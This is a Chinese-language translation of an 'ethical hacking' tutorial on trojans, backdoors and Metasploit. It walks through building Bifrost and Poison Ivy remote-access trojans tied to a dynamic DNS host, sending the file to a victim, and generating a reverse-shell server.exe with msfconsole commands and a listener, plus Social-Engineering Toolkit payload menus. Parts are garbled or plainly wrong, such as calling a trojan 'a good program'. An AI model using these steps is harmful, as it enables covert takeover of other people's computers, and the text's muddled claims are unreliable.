# Windows、Linux 和 Web 服务器系统常见黑客技术


**作者**

Hidaia Mahmood Alassouli 博士

`Hidaia_alassouli@hotmail.com`

## 1. 引言

木马（`Trojan horse or Trojan`）是一种通常伪装成合法软件的恶意软件。网络罪犯和黑客利用木马来试图获取用户系统的访问权限。用户通常会被某些社会工程学误导，在他们的系统中加载并执行木马。一旦激活，木马就能让网络犯罪分子监视你、窃取敏感数据，并获得你系统的后门访问权限。

计算机病毒是一种计算机程序，在执行时会通过修改其他计算机程序并插入自己的代码来复制自己。如果这种复制成功，受影响的区域就被认为“感染”了计算机病毒。计算机病毒通常需要一个宿主程序。

系统攻击定义为破坏计算机系统和软件以访问目标计算机并窃取或误用其敏感信息。恶意黑客利用计算机系统或网络中的漏洞来获取未经授权的数据访问权限或获取非法利益。

`Web` 内容是由运行在服务器端的软件应用程序实时生成的。因此，黑客攻击 `Web` 服务器，通过使用 `DoS`（`DDoS`）攻击、`SYN` 洪水、`Ping` 洪水、端口洪水扫描、嗅探攻击和社会工程学攻击来窃取凭据信息、密码和业务信息。

本报告涵盖了用于系统、`Windows`、`Linux` 和 `Web` 服务器攻击的常用技术和工具。报告包含以下内容：

你可以从以下网站下载所有的攻击工具和材料：

`http://www.hxf4rall.com/2016/02/13/ceh-v9-pdf-certified-ethical-hacker-v9-courseeducational-materials-tools/`

`www.mediafire.com%2FFolder%2Fad5szsted5end%2FEduors_Professional_Ethical_Hacker&h=gAQGad5Hf`

## 2. A 部分：搭建实验室

- 通过 `VMware` 或 `VirtualBox` 等虚拟化技术软件，我们可以创建多个虚拟机，如 `Linux` 以及其他 `Windows 2007` 或 `Windows XP`。
- 下载并安装 `VMware`。
- 在非 `Windows` 分区中创建 `edors-vm` 文件夹。为每个操作系统创建一个文件夹。
- 安装任意 `Windows` 操作系统。
- 下载 `Backtrack`。

### a) 搭建实验室



- 如果要在 `USB` 上安装 `Backtrack`，请下载 `unbootee`。我们还需要使用该工具来支持虚拟机从闪存启动。



- 下载并安装 `Kali Linux`。



- 下载并安装 `Metasploit`。



`Metasploit` 是一个包含许多模块或程序的大型项目。这些模块或程序可以利用 `Windows` 或 `Linux` 操作系统中的漏洞。对于操作系统出现的任何漏洞，我们都可以开发利用该漏洞的程序。我们可以通过命令行或图形界面进行操作。使用图形界面的程序有 `Armitage` 和 `Cobalt Strike`。在 `Linux` 中，我们可以使用命令 `msfupdate` 来更新 `Metasploit`。

## 2. B 部分：木马、后门和病毒

### a) 后门

### 什么是后门？

- 后门是一种绕过安全机制访问计算机程序的手段。程序员有时会为了故障排除或其他目的而安装后门。然而，攻击者经常使用他们检测到或自行安装的后门。
- 后门是黑客安装在目标系统上的程序或一组相关程序，以便以后访问该系统。后门的目标是从系统日志文件中删除初始入侵的证据。但后门也可能让黑客在入侵已被系统管理员检测并修复后，仍然保留对被攻入机器的访问权限。



后门是让我们通过它访问机器并绕过现有安全策略的后门。`微软`拥有后门，使其能够对机器进行远程访问。

### b) 木马：



木马是一个好程序。

### 什么是显式通道和隐蔽通道？

显式通道（`Overt channel`）是正常的方式。隐蔽通道（`Covert channel`）是一种并非用于预期通信的信息传输方式。

（注：原文后续部分存在大量逻辑重复内容，此处已根据逻辑去重并保留核心定义翻译）

# `DUC v4.0.1`

文件编辑工具帮助

状态

客户端 ID: `C3A9845233`

`demoairdagon@hotmail.com`

更新中: `0` 组 & `1` 个主机

`IP: 41.32.91.242`

下次检查: `56` 秒后

`下午 6:56:` 发现远程 `IP: 41.32.91.242`



请选择与此客户端关联的主机或组。您可以点击此处在 `No-IP.com` 网站上添加或删除账户内的主机。

`管理现有主机` `创建主机..`

`zapto.org`

`demoairdagon.zapto.org`

显示已选主机

修改主机需要密码

- `*` 您可以使用路由器中名为动态 `DNS` (`dynamic dns`) 的属性

| 动态 `DNS` | |
|---|---|
| 激活状态 | 启用 禁用 |
| 服务提供商 | |
| 主机名 | |
| 邮箱地址 | |
| 用户 | |
| 密码 | |
| 启用向导 | 启用 禁用 |

- `*` 在 `dynamicdns.com` 注册账户，并将注册信息放入路由器配置中。当路由器重启时，它将在动态 `DNS` 中注册其 `IP`。
- 我们可以使用 `VPS` 机器。`VPS` 将拥有真实 `IP`，建议直接连接互联网，并通过 `Trojan` 程序运行它。客户端中的 `Trojan` 服务器将对此真实 `IP` 建立反连接，这样真实 `IP` 就不会改变，且 `VPS` 会 24 小时在线。

### f) `Windows` `Trojan` 工具：



- 下载 `bifrost`。`bifrost` 体积较小且具有多种加密方式。进行注册。
- 在路由器上进行端口转发。



- 然后进入 `bifrost stub` 自定义并按照以下设置生成 `Trojan`。生成的文件将命名为 `Customized`。



- 打开 `bifrost` 程序。输入动态 `DNS` 名称和 `Trojan` 程序将运行的端口号。



- 在想要攻击的机器上自定义文件，我们就可以浏览该机器。



- 编译程序。提供自定义器输出的 `Customized` 文件。
- 将文件发送到你想要破解的客户端。
- 当客户端访问 `Trojan` 文件时，我们将收到反连接的通知。



- 在接收到的机器上选择文件管理器



- 另一个程序是 `Poison` 程序



- 选择新客户端。`Trojan` 程序正在监听。如果需要，请输入反连接的密码。
- `•` 新服务器在你生成它后创建配置并命名。选择反连接连接到动态 `DNS` 服务器。



- 当客户端点击服务器时，我们可以看到所有信息



- `•` 生成它并命名服务器。
- 当客户端访问文件时，我们在黑客应用程序中获取以下信息

专业道德黑客 (`Trojans Backdoors Vulnerabilities Part 1`) 由 `Mahmoud Ahmed - Arabic`

| ID | WLAN | LAN | 连接类型 | 计算机 | 名称 | 账户 | OS | CPU | 版本 | 创建 |
|---|---|---|---|---|---|---|---|---|---|---|
| 1 | 192.1... | 192.1... | 直接 | XP-1 | 用户 | Admin | WinV6 | 2495 MHz | 511.48 MB | 2.3 1/12/2013 33:54 |



### g) `Linux` `Trojan` :



- `VPS` 是一个具有真实 `IP` 地址的机器。我们可以通过 `Windows` 远程桌面连接，或通过 `Linux` 的 `SSH` 或 `VNC` 程序连接到你购买的面板。

| Linux VPS 方案 | Windows VPS 方案 | Linux VPS Pro |
|---|---|---|
| Linux VPS Plus | 30 GB 磁盘空间 | 50 GB 磁盘空间 | |
| 1024 MB RAM | 2048 MB RAM | 4096 MB RAM |
| 6144 MB Burst | 无限制流量 | 无限制流量 |
| 等效 CPU (1核) | 等效 CPU (2核) | |
| $19.95 | $29.95 | |

### h) 安装 `Metasploit`:

- 下载 `Metasploit`。你将获得文件。


- 给文件执行权限。运行文件。

```
root@hmoud-virtual-machine:~/Desktop# chmod +x metasploit-latest-installer.run
root@hmoud-virtual-machine:~/Desktop# ./metasploit-latest-installer.run
```

- 安装程序。保留默认信息。
- 为了更新，你需要进行注册。你需要通过浏览器访问 `Metasploit`。

| 登录信息 | 可选信息 |
|---|---|
| 用户名 | |
| 密码 | |
| 确认密码 | |
| 全名 | |
| 邮箱地址 | |
| 组织 | |
| 时区 (GMT+02:00) | |

- 让他选择专业版 `Metasploit`。提供必要信息。

| 注册并获取你的免费 Metasploit 试用密钥 | |
|---|---|
| 表示必填字段 | |
| 名 | |
| 姓 | |
| 职位 | |
| 公司名称 | |
| 国家 | |
| 州/省 | |
| 使用类型 | |

- 工作邮箱你将在邮件中收到许可密钥，将其放入 `Metasploit` 激活。你将获得以下界面

### 激活成功

快速启动向导

你想做什么？





### 项目列表

- 更新 `Metasploit`。
- `Metasploit` 是一个程序，通过我们可以利用某些软件的漏洞来访问机器。`Metasploit` 拥有针对不同操作系统和程序的大量 `payload`。



- 查看所有类型的 `payload`

### `msfconsole`

- 我们想要创建一个在 `Windows` 机器上运行的 `payload`，这种类型是 `shell` 代码，我们使用反连接属性。
- 我们想要创建一个在 `Windows` 机器上运行的 `payload`，这种类型是 `shell` 代码，我们使用反连接属性。

```
msf> search payload/windows/shell/reverse_tcp
msf> set LHOST 192.168.52.130 (黑客机器的 ip)
msf> generate -f server.exe
```

它将在根目录下创建 `server.exe`

- 使用 `multi handler` 监听 `payload`。

```
msf> back
msf> use exploit/multi/handler
msf>set payload windows/shell/reverse_tcp
msf> set LHOST 192.168.52.130
msf> set LPORT 4444
msf> exploit -j
msf > sessions -l (查看会话)
msf > sessions -i 2

sf exploit(handler) > [Starting the handler...]
[*] Command session opened 2 (41.32.91.242:4444 -> 192.168.1.7:491) at 23-07-18 03:08:57 +0200
sf exploit(handler) > sessions -l
============================
Id Type Information
     Connection
2 shell windows Microsoft [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\Desktop>dir
```

- 你可以直接创建 `payload`

```
mahmoud@hmoud-virtual-machine:-$ sudo msfpayload payload/windows/shell_reverse_tcp TCP LHOST 41.32.91.242 LPORT 4444 R=eduoders.exe
[sudo] password for mahmoud:
Invalid payload: payload/windows/shell_reverse_tcp
mahmoud@hmoud-virtual-machine:-$ $
```

- 你可以使用该工具创建 `payload`。它可以与 `Metasploit` 配合。

```
Go applications, exploitation tools, social engineering tools, social engineering toolkit, set

Set>set-toolkit
```

```
Set >se_toolkit
```

按 `1` 进行社会工程攻击。



按 `4` 创建 `payload` 和监听器

- `1)` 鱼叉式钓鱼攻击向量
- `2)` 网站攻击向量
- `3)` 感染性媒介生成器
- `4)` 创建有效负载（`Payload`）和监听器（`Listener`）
- `5)` 恶意软件攻击者
- `6)` 基于 `Arduino` 的攻击向量
- `7)` 短信伪造攻击向量
- `8)` 无线访问点攻击向量
- `9)` 二维码生成器攻击向量
- `10)` `PowerShell` 攻击向量
- `11)` 第三方模块

`99)` 返回主菜单。

然后，输入监听负载的黑客电脑的 `IP`。

选择负载窗口：`windows/shell/reverse_tcp` 负载

选择使用编码

选择在端口 `4444` 监听



```
set:encoding>1

set:payloads> PORT of the listener [443]:4444
```


